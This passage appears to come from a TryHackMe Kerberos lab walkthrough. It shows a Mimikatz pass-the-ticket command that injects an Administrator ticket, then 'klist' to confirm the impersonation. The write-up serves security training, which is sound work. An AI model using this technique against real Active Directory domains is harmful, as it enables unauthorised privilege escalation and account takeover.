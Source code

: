![](/assets/images/thm/kerberos/mimikatz-tickets2.png)

now to  "login" as one of these users using the following command.
```cmd
kerberos::ptt [0;77e19]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL
```

You should receive this output.
![](/assets/images/thm/kerberos/mimikatz-tickets3.png)

To see if we are now accessing the other account you will want to exit mimikatz and run
```cmd
klist
```

Here you will see the client is now showing as Admin
![](/assets/images/thm/kerberos/mimikatz-tickets4.png)
